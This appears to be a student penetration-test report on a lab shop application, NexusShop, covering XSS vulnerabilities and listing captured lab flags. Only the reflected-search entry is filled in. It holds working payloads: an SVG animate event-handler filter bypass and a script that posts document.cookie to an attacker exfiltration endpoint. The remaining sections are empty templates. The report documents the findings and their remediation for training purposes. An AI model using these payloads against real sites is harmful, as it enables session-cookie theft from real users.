



# Penetration Test Report - NexusShop XSS Assessment

## Executive Summary

- **Target**: http://web0x0c.hbtn
- **Assessment Date**: 06-07/08/2026
- **Scope**: It was tested the product's search, product's filter, product's sort, product's review, user's profile, product's info, URL fragment and shopping cart.
- **Summary**: A penetration test was performed on the NexusShop application. **7 critical XSS vulnerabilities** were identified across Reflected, Stored, and DOM-based attack vectors. All flags were successfully captured. The assessment demonstrates that improper output encoding and insufficient input validation allow attackers to steal session cookies, harvest credentials, and capture keystrokes.
- Flags Captured:

|**Vulnerability**|**Flag**|
|-|-
|**Reflected XSS - Basic Search**|32de54dbcbd2d68b007da66e29932683|
|**Reflected XSS - JavaScript Context**|-|
|**Stored XSS - Product Reviews**|f9535608e63bb67d97ce0bcff502ed4b|
|**Stored XSS - User Profile**|0c3430182c4a5cad5486196643e1447d|
|**Stored XSS - Markdown Editor**|-|
|**DOM XSS: URL Hash Hijack**|e0250d78866dbc4873507bb512fee6a6|
|**DOM XSS : postMessage Abuse**|e32681da6865ad5419d090cc43d8b7f1|

## Detailed Vulnerability Findings

### Reflected XSS - Basic Search

|Section|Required Content                
|-|-
|Vulnerability Description|The search bar reflects the input directly into the page heading. Improper Neutralization of Script-Related HTML in a Web Page.
|Location|The resources afected for this vulnerability is `/search?q=TESTINPUT`, `/search/filtered?q=TESTINPUT` and `/search/advanced?q=TESTINPUT`
|Attack Vector|**The first vulnerabitlity** was testing the `/search?q=` with a simple XSS Injection, ``. Then the url `http://web0x0c.hbtn/search?q=` will execute the alert command in the browser.   **The second vulnerability** was testing the `/search/filtered?q=` with the same simple XSS Injection, ``. This time there were no reflection on the website. Trying other HTML tags it was found that `img` tag was reflecting on the page and with `` it was possible to execute JS commands.    **The third vulnerability** was testing the `/search/advanced?q=` with `script` and `img` HTML tags, but `script` was not reflecting and `img` was blocking event handler. One way to do it was with anchor element and javascript shema `<a href="javascript:alert(1)">Click me</a>`, but that needs user interaction to run. With the `svg` element is possible to run a event handler that was not blocked `<svg><animate attributeName=x dur=1s onbegin="alert('SVG Element bypass filter')"></animate></svg>` and executes the JS command.
|Payload Used|**The first vulnerabitlity**: `  `   **The second vulnerability**: ``    **The third vulnerability**: `<svg><animate attributeName=x dur=1s onbegin='setTimeout(function(){var t=document.getElementById("tracking-id").innerText;fetch("/attacker/api/exfil",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({type:"cookies",data:document.cookie\|\|"no-readable-cookie",level:1,stage:3})});fetch("/search/api/track?t="+t).then(r=>r.json()).then(d=>console.log(d))},500)'></animate></svg>`
|Evidence|**The first vulnerabitlity**:      **The second vulnerability**:       **The third vulnerability**:  
|Real-World Impact| A threat actor could impersonate another user by stealing session cookies from the victim. That could lead to data theft and malicious actions.
|Remediation|- Carefully check each input parameter against a rigorous positive specification (allowlist) defining the specific characters and format allowed.  - Use and specify an output encoding that can be handled by the downstream component that is reading the output. Common encodings include ISO-8859-1, UTF-7, and UTF-8.  - To help mitigate XSS attacks against the user's session cookie, set the session cookie to be HttpOnly.

### Reflected XSS - JavaScript Context

|Section|Required Content                
|-|-
|Vulnerability Description|
|Location|
|Attack Vector|
|Payload Used|
|Evidence|
|Real-World Impact|
|Remediation|

### Stored XSS - Product Reviews

|Section|Required Content                
|-|-
|Vulnerability Description|
|Location|
|Attack Vector|
|Payload Used|
|Evidence|
|Real-World Impact|
|Remediation|